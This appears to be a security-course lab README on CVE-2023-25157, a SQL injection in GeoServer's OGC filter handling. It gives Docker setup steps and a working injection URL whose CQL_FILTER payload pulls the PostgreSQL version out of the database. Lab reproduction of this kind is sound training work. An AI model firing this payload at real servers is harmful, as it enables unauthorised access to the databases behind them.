

# GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)

## 요약
GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.

In the version prior to 2.22.1 and 2.21.4, there is a SQL injection issue that was found in the filter and function expressions defined by the Open Geospatial Consortium (OGC) standards.

References:

- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>

## 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
## Vulnerable environment

Execute following command to start a GeoServer instance 2.22.1:

```
docker compose up -d
```

After the server is started, you can browse the default page of GeoServer at `http://your-ip:8080/geoserver`.


## 결과
아직 없음

## Exploit

First of all, you have to find a existing workspace that contains PostGIS datastore before you exploit the vulnerability. Vulhub's GeoServer instance already have a PostGIS datastore:

- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

Exploit the server by this simple URL:

```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```



As you can see, the version of PostgreSQL has been retrieved from GeoServer by SQL injection.
